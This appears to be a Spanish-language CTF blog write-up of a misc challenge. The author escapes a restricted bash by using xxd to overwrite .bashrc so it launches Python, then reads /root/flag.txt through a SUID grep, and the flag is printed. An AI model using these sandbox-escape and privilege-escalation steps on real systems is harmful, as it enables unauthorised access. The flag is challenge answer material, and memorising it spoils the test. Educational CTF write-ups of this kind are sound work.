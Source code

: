 ```yaml
---
title: SandBox - x3CTF2025
author: Kesero
description: Reto misc basado en escapar de una rbash y leer flag.txt
date: 2025-02-24 00:00:00 +0000
categories: [Writeups Competiciones Nacionales, Misc]
tags: [rbash, Writeups, Media]
pin: false
math: true
mermaid: true
image:
  path: https://github.com/k3sero/Blog_Content/blob/main/Competiciones_Nacionales_Writeups/2025/HackOn2025/Misc/SandBox/3.png?raw=true
  lqip: 
  alt: 
comments: true
---
```


Autor del reto: `HugoBond`

Dificultad: <font color=orange>Media</font>

## Enunciado

"Not even the dockerfile, just rawdogged like old times"

## Archivos

En reto, solo nos dan una conexión.

- `Servidor en remoto` : Conexión por ncat.

Archivos utilizados [aquí](https://github.com/k3sero/Blog_Content/tree/main/Competiciones_Nacionales_Writeups/2025/HackOn2025/Misc/SandBox).

## Entrando al reto.

Para entrar al entorno del reto, simplemente nos tenemos que conectar mediante `openssl` de la siguiente manera.

    ┌──(kesero㉿kali)-[~]
    └─$ openssl s_client -connect hackon-444ba26d30e4-sandbox-1.chals.io:443

Una vez dentro, se nos desplegará una bash restringida como el usuario `paco`. Nuestro cometido será leer el archivo `flag.txt` el cual se encuentra dentro del directorio `/root`

## Solución

Este tipo de retos requiere tiempo y sobre todo de probar, probar y probar diferentes comandos y payloads.

En este caso, la bash nos permite listar archivos mediante `ls` dentro de nuestra carpeta teníamos una carpeta `bin/` con los comandos que podíamos ejecutar los cuales son los siguientes.

    ┌──(paco@ac3d575b01fb)-[~]
    └─$ ls bin/

    echo  id  ls  ping  pwd  python  whoami  xxd

De todos estos comandos los que nos llama más la atención son `python` y `xxd` ya que con python podemos jugar de distintas formas para obtener una `bash` sin restricciones, pero la intrusión no viene de este modo, ya que el comando `python` está asociado a la ejecución del script `/opt/test.py` el cual imprime lo siguiente por consola.

    ┌──(paco@ac3d575b01fb)-[~]
    └─$ python

    You just lose THE GAME

Como tenemos capacidad de listar directorios con `ls`, podemos listar todo el contenido en el que paco tenga capacidad de lectura. Es en este momento en el que indagaremos por el sistema en busca de información que podamos utilizar a nuestro favor, como rutas de binarios, permisos asociados a los mismos, etc.

Además un truquele que podemos aplicar en estos casos, es que como tenemos el comando `echo`, podemos mostrar el contenido de archivos mediante el siguiente comando.

    ┌──(paco@ac3d575b01fb)-[~]
    └─$ echo $(>.profile)

    # ~/.profile: executed by the command interpreter for login shells. # This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login # exists. # see /usr/share/doc/bash/examples/startup-files for examples. # the files are located in the bash-doc package. # the default umask is set in /etc/profile; for setting the umask # for ssh logins, install and configure the libpam-umask package. #umask 022 # if running bash if [ -n "$BASH_VERSION" ]; then # include .bashrc if it exists if [ -f "$HOME/.bashrc" ]; then . "$HOME/.bashrc" fi fi # set PATH so it includes user's private bin if it exists if [ -d "$HOME/bin" ] ; then PATH="$HOME/bin:$PATH" fi # set PATH so it includes user's private bin if it exists if [ -d "$HOME/.local/bin" ] ; then PATH="$HOME/.local/bin:$PATH" fi

De esta forma podemos listar el contenido de todos los archivos si paco tiene permisos de lectura en ellos.

Llegados a este punto tenemos capacidad de listar directorios y de listar archivos, pero nos falta la capacidad de escribirlos.

Es en este punto donde el comando `xxd` adquiere gran importancia.

Si observamos en la página de `GTFoBins` el comando [xxd](https://gtfobins.github.io/gtfobins/xxd/), podemos escribir archivos y leer archivos (aunque este listado es menos intuitivo ya que parte lo hace en hexadecimal)

Podemos listar archivos mediante

    LFILE=file_to_read
    xxd "$LFILE" | xxd -r

Podemos escribir archivos mediante

    LFILE=file_to_write
    echo DATA | xxd | xxd -r - "$LFILE"

NOTA: Importante aclarar que la escritura se realiza al comienzo del archivo, por lo que si queremos escribir al final tendremos que copiar todo el contenido del mismo y luego nuestro payload.

Llegados a este punto podemos salir de la `rbash` de distintos modos. El camino que seguí es que como tenemos capacidad de escritura en los archivos cuyo propietario sea `paco`, directamente podemos escribir en nuestra propia `.bashrc` para escapar de la bash.

Aquí se pueden aplicar varios métodos, podemos exportar el $PATH para que incluya rutas del sistema como /usr/bin (actualmente el usuario paco solo tiene en el path /home/paco/bin/), podemos incrustar comandos o abrirnos distintos entornos de ejecuciones como puede ser vim, nano, etc.

Lo que yo hice fue simplemente escribir en `.bashrc` el interprete de python libre restricciones el cual está alojado en `/usr/bin/python3.11`, de esta manera al salir de la bash y volver a conectarnos mediante `openssl`, se ejecutará el contenido dentro de  `.bashrc` y por ende se ejecutará el interprete de `python3.11`. Para ello.

    ┌──(paco@ac3d575b01fb)-[~]
    └─$ echo "exec /usr/bin/python3" | xxd | xxd -r - ".bashrc"

Al salir de la sesión y volver a conectarnos podremos ver que efectivamente, tenemos un interprete de python3.11.2

    ┌──(kesero㉿kali)-[~]
    └─$ openssl s_client -connect hackon-444ba26d30e4-sandbox-1.chals.io:443

    rbash: cannot set terminal process group (7): Inappropriate ioctl for device
    rbash: no job control in this shell
    Python 3.11.2 (main, Nov 30 2024, 21:22:50) [GCC 12.2.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>>

Llegados a este punto podemos ejecutar comandos en el sistema mediante `import os;`, pero seguimos sin tener permisos para leer el directorio `/root`, es por ello que entra el juego la `escalada de privilegios` para poder leer `/root/flag.txt`

Listando con `ls -la` los permisos de los binarios alojados en `/usr/bin/` podemos listar los privilegios `SUID` que tiene el sistema y observamos que hay varios binarios que tiene permisos `SUID` cuyo propietario es `root`, por lo que podemos manipularlos para ejecutar dicho binario con máximos privilegios.

En este punto, yo utilicé el binario `grep` ya que cuenta con permisos `SUID` y nuevamente si utilizamos la página de `GTFoBins` podemos escalar privilegios con el comando [grep](https://gtfobins.github.io/gtfobins/grep/) si este cuenta con el permiso asociado.

    LFILE=file_to_read
    ./grep '' $LFILE

Como podemos ejecutar comandos deste el intérprete de python, utilizamos `grep` como medio de escalada de privilegios y a su vez para leer el archivo `flag.txt` para observar finalmente la flag.

    >>> import os
    >>> os.system("grep '' " + "/root/flag.txt")

    HackOn{D1sp4ro_4l_41r3_y_4_donde_ca1g4,_l4_pen4_deb4jo_del_Stone_Isl4nd}


## Flag

`HackOn{D1sp4ro_4l_41r3_y_4_donde_ca1g4,_l4_pen4_deb4jo_del_Stone_Isl4nd}`